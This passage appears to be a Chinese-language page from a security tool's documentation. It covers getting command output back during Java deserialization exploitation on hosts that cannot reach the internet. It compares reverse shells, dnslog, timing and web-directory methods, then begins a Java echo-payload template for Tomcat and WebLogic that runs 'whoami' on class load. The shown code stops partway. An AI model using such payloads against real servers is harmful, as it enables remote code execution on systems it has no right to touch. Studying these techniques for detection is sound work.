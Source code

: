 ```yaml
---
sidebar_position: 2
---
```


# Java 反序列化回显链研究

## Java 反序列化回显链研究：漏洞检测工程化
回显方案选择

实战中反序列化漏洞利用时，经常会遇到不出网的情况，命令执行成功，但拿不到执行结果，也不能回连

这种情况可能是内网主机网络配置，禁用了tcp/dns/icmp等协议的出网，再通过nginx将web服务代理出来，或类似方式。内网主机不通公网，但公网可以通过web端口和内网主机通信

执行结果的传出可以通过下面几种方式

1. 反弹shell，dnslog回显（需要出网）
2. 写脚本，通过延时，类似布尔盲注的方式得到执行结果（效率太低，不太现实）
3. 将执行结果写入到web目录下（要先获取到web路径）
4. 通过执行java代码，将命令执行结果直接写到web请求的响应包中（需要代码执行）

| / | 反弹shell，dnslog回显  | 通过延时爆破回显的脚本  | 写到web目录  | 将回显内容写到响应包
|  ----  | ----  | ----  | ----  | ----  |
| 优点  | 简单方便 | 应用范围广 | 简单方便 | 稳定高效
| 缺点  | 需要机器出网 | 需要机器出网 | 需要知道web路径 | 需要可以代码执行

因为web端口可以和外界通讯（收到请求包，返回响应包），所以最优方案就是通过请求包发送命令，响应包回传执行结果

## 通过java代码执行回显

<div align="center">
    <img src="/img/products/yakit/research-echo.svg" />
</div>

## 生成回显class模板

因为不同web框架，获取到web请求的方式不同，所以，需要针对不同web框架，分别制作一套模板

也可以把多套模板合并，通过加载的类判断当前环境。代码编写时，最好通过反射加载class，来适应更多环境。

代码如下，合并了tomcat和weblogic框架的paylaod

```java
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class MultiEchoTempl {
    static String cmd ="whoami";
    public MultiEchoTempl(){
        start();
    }
    static {
        start();
    }
    private static void start(){
        try{
            Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            tomcat();
            return;
        } catch (Exception ignored){

        }
```